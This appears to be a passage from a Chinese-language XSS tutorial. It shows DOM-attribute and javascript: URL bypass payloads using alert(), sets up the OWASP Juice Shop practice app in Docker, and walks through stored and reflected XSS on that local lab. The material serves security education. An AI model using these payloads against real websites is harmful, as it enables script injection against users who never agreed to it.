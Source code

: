 ### 2.3 DOM属性绕过

**技巧**：通过修改DOM属性执行脚本。

**示例**：
```html
<div id="x"></div>
<script>document.getElementById('x').innerHTML = '<img src="x" onerror="alert(\'XSS\')">';</script>
```

### 2.4 协议绕过

**技巧**：利用URL协议执行脚本。

**示例**：
```html
<a href="javascript:alert('XSS')">Click me</a>
```

## 3. 攻击步骤与实验环境搭建

### 3.1 实验环境搭建

**工具**：
- **Docker**：用于快速搭建实验环境。
- **OWASP Juice Shop**：一个包含多种漏洞的Web应用，适合XSS实验。

**步骤**：
1. 安装Docker：
   ```bash
   sudo apt-get update
   sudo apt-get install docker.io
   ```
2. 拉取OWASP Juice Shop镜像：
   ```bash
   docker pull bkimminich/juice-shop
   ```
3. 运行容器：
   ```bash
   docker run -d -p 3000:3000 bkimminich/juice-shop
   ```
4. 访问`http://localhost:3000`，开始实验。

### 3.2 攻击步骤

**存储型XSS**：
1. 登录OWASP Juice Shop。
2. 在“Feedback”页面提交包含恶意脚本的反馈。
3. 管理员查看反馈时，脚本被执行。

**反射型XSS**：
1. 在搜索框中输入恶意脚本：
   ```html
   <script>alert('XSS')</script>
   ```
2. 提交搜索请求，脚本被执行。
